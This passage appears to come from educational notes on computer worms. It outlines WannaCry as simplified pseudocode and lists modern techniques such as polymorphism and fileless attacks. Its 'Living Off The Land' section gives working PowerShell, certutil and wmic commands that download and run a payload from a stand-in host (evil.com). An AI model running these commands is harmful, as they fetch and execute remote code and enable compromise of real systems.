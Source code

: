 #### **5. WannaCry (2017)**
```python
# WannaCry behavior (simplified)
def wannacry_behavior():
    # 1. Exploit EternalBlue SMB vulnerability
    exploit_smb_vulnerability()
    
    # 2. Encrypt files
    encrypt_user_files()
    
    # 3. Display ransom message
    show_ransom_demand()
    
    # 4. Spread to other systems
    scan_and_infect_network()
```
- **Exploited:** EternalBlue SMB vulnerability
- **Impact:** 300,000+ computers in 150+ countries
- **Damage:** Hospitals, railways, telecommunications

#### **Modern Worm Techniques:**

#### **1. Polymorphic Code**
```python
# Worm changes its code signature to avoid detection
def mutate_code():
    # Add random comments
    # Reorder functions
    # Use different variable names
    # Encrypt payload with random keys
```

#### **2. Living Off The Land**
```bash
# Use legitimate system tools
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload')"
wmic.exe process call create "cmd /c payload.exe"
certutil.exe -urlcache -split -f http://evil.com/payload payload.exe
```

#### **3. Fileless Attacks**
```python
# Operate entirely in memory
# No files written to disk
# Harder to detect and analyze
# Use PowerShell, WMI, registry for persistence
```

#### **4. AI-Powered Spreading**
```python
# Machine learning for target selection
# Adaptive exploitation techniques
# Behavioral mimicry to avoid detection
# Natural language processing for social engineering
```

